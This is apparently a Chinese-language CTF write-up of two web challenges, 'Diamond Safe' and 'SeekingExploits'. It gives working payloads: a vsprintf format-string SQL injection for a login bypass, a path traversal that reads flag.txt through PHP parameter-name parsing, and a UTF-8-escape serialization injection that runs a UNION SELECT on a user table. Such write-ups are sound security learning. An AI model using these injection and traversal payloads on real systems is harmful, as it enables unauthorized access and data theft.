

# Diamond Safe

就是一个页面没看到任何东西,进去My Vault页面会跳到login,于是看看login的源码

关键源码如下


跟进prepare


最后return这里用了vsprintf

可以看看vsprintf的漏洞

```
var_dump(vsprintf("%1$'%s'", 'monkey'));
```


这样就可以把name参数的值带入到password里面造成注入

直接尝试万能密码注入,把name的值带入password参数中,闭合sha1构造万能密码

```
POST:
password=%1$&name=) or 1=1%23
```

在网上扒了个图可以看看语句是如何的


成功登陆了


在首页看到了下文件的点


接下来在download.php下看到了readfile函数


但是提前要GET一个h参数，我随便GET了一个并没有成功

在vault.php中


这里有个校验：checkurl和gen_secure_url，大致意思是把要下的文件加上secret的md5值和传入的md5值比较，但是这里获取参数用的是$_SERVER[‘QUERY_STRING’]，获取到的是未urldecode的字符串，所以这里可以直接利用QUERY_STRING不自动urldecode的特性和php中空格等于的特性一把梭

php的空格等于特性


不过我们可以在页面看到下载文件的时候的h参数是什么


可以直接用这个payload去读flag

```
https://diamond-safe.flu.xxx/download.php?h=95f0dc5903ee9796c3503d2be76ad159&file_name=Diamond.txt&file name=../../../flag.txt
```

下载下来了flag.txt



或者

```
https://diamond-safe.flu.xxx/download.php?h=95f0dc5903ee9796c3503d2be76ad159&file_name=Diamond.txt&file.name=../../../flag.txt
```

参考链接

https://blog.csdn.net/weixin_34290352/article/details/89664775

https://www.anquanke.com/post/id/258083#h3-8

之前只接触过file.name可以当做为file_name,这次学习到了空格这个特性还是不错

# SeekingExploits

给的附件里面有两个文件emarket-api.php和emarket.php

在emarket-api.php中有序列化函数


这里还插入了exploit_proposals表

而且插入的东西是没有任何限制的


而在emarket.php中


有一个反序列化函数后直接进入了simple_select没有任何的过滤

但是这里我跟进这些函数没有对应的文件,我看师傅的wp中都有这些文件,无奈只能看着wp里面的文件分析了

他跟进了simple_select


这里可以hook进去执行emarket.php的list_proposals方法，然后反序列化

首先要注册登陆一个账号,因为这里的run_hooks的执行条件要提前发送了邮件


随便发送一封邮件

这里的trick就是利用在escape_string中的validate_utf8_string方法，可以把`%c0%c2`变成`?`

然后可以将我们的sql语句逃逸出来反序列化执行

payload

```
/emarket-api.php?action=make_proposal&description=1&software=1.2&latest_version=4&additional_info[a]=%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2%c0%c2&additional_info[b]=%22%3b%73%3a%37%3a%22%73%6f%6c%64%5f%74%6f%22%3b%73%3a%35%35%3a%22%30%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%67%72%6f%75%70%5f%63%6f%6e%63%61%74%28%75%73%65%72%6e%6f%74%65%73%29%20%20%66%72%6f%6d%20%6d%79%62%62%5f%75%73%65%72%73
```

逃逸后的情况大概如下


这样发包后再去访问我们之前发送的邮件


看到了flag

这道题目不知道是我没弄对还是怎么的,我看wp里面的文件好多我附件里面都没有,simple_select这些也跟不进去

参考链接

https://www.anquanke.com/post/id/258083#h3-8

